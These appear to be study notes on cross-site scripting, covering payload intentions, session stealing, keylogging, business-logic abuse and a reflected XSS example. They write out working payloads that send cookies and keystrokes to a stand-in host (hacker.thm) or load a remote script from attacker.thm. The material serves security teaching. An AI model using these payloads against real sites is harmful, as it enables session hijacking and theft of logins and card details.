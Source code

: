 # Cross-site Scripting (XSS)
* Classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users.
* These vulnerabilities are extremely common.
## XSS Payloads
* Payload is the JavaScript code to be executed on the target computer.
* There are two parts to the payload:
  * The intention is what you wish the JavaScript to actually do.
  * The modification is the changes to the code we need to make it execute as every scenario is different.   
### XSS Intention Examples
#### Proof Of Concept
* The simplest of payloads where all is required is to demonstrate that XSS can be achieved on a website.
  * Often done by causing an alert box to pop up on the page with a string of text: `<script>alert('XSS');</script>`.
#### Session Stealing
* Details of a user's session, such as login tokens, are often kept in cookies on the target machine.
* Use JavaScript to take the target's cookie, base64 encodes the cookie to ensure successful transmission and then post it to a website under the hacker's control to be logged:
* * `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
* Once the hacker has these cookies they can take over the target's session and be logged as that user.
#### Key Logger
* The following code acts as a key logger: `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
* This means anything typed on the webpage will be forwarded to a website under the hacker's control.
* This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
#### Business Logic
* This payload is a lot more specific than the other examples.
* This would calli a particular network resource or JavaScript function.
  * For example, imagine a JavaScript function for changing the user's email address called user.changeEmail().
    * The payload could look like this: `<script>user.changeEmail('attacker@hacker.thm');</script>`.
  * Now that the email address for the account has changed, the attacker may perform a reset password attack.
## Reflected XSS
* Occurs when user supplied data in an HTTP request is included in the webpage source without any validation.
### Reflected XSS Example
* A website where if incorrect input is entered, an error message is displayed.
* The content of the error message gets taken from the error parameter in the query string and is built directly into the page source:
  * In the browser: `https://website.thm/?error=Invalid Input Detected`
  * In the source code:
    * `<div class="alert alert-danger">`
    * `<p>Invalid Input Detected</p>`
    * `</div>`
* The application doesn't check the contents of the `error` parameter, which allows the attacker to insert malicious code:
  * In the browser: `https://website.thm/?error=<script src="https://attacker.thm/evil.js"></script>`
  * In the source code:
    * `<div class="alert alert-danger">`
    * `<p><script src="https://attacker.thm/evil.js"></script></p>`